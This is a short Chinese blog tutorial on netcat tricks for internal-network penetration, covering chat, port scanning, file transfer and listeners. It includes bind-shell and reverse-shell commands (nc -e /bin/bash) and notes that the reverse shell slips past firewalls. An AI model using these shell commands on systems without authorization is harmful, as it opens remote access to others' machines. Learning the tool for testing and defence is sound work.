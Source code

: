 ```yaml
---
title: "netcat 使用技巧"
date: 2018-02-14T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['windows','linux']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


netcat 是一个用于 TCP/UDP 连接和监听的 linux 工具, 主要用于网络传输及调试领域.

<!--more-->

## 聊天室

`Server: nc -l -p port`

`Client: nc ip port`

此时在 client 输入任何内容都会在 server 中显示

## 端口扫描

`nc -v ip port`

`nc -v ip port-port`

参数

```
-v 详细输出 -vv 更详细
-w sec 设置超时时间 单位秒
-z 在扫描端口后立即关闭连接
```

ex

`nc -vv -w 3 -z 10.0.0.1 1-65535`

## 正向连接

`Server: nc -l -p port -e /bin/bash`

`Client: nc ip port`

参数

```
-e 连接后执行的程序
```

client 连接 server

有时会被防火墙拦截

## 反向连接

`Client: nc -vv -l -p port`

`Server: nc -e /bin/bash ip port`

server 连接 client

不会被防火墙拦截

## 数据传输

**发送**

`Client: nc ip port < file`

`Server: nc -d -l -p port > file`

参数

```
< 输入重定向
> 输出重定向
```

**接收**

`Server: nc -d -l -p port < file`

`Client: nc ip port > file`

## 蜜罐

`nc -L -p port`

参数

```
-L 持续监听
```